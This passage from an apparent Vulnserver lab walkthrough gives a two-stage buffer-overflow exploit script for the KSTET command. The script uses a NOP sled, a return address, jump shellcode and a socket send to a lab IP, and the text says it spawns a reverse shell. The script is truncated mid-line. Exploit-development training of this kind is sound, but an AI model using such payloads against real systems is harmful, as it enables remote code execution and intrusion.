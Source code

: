 ```c
payload=b""
payload+=b"\x90"*10
payload+=file_descriptor
payload+=stack_adjustment
payload+=flag_value
payload+=buffer_size
payload+=buffer_pointer
payload+=get_file_descriptor
payload+=socket_recv
payload+=b"\x90"*(70-len(payload))
payload+=b"\xaf\x11\x50\x62"
payload+=b"\x90"
payload+=b"\x83\xc0\x10"
payload+=b"\xff\xe0"

stage1=b""
stage1+=payload

stage2=b""
stage2+=buf
stage2+=b"\x90"*(1024-len(buf))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))

print("[+] Sending STAGE 1 payload")
s.send((b"KSTET "+stage1))
sleep(5)

print("[+] Sending STAGE 2 payload")
s.send(stage2)

print("[+] Exploit complete.. Shell spawned")
s.close()
sys.exit(
```

After running this exploit on ```KSTET``` command, we will spawn a reverse shell

<video width="100%" preload="auto" muted controls>
    <source src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/kstet-2-exploit.mp4" type="video/mp4"/>
</video>
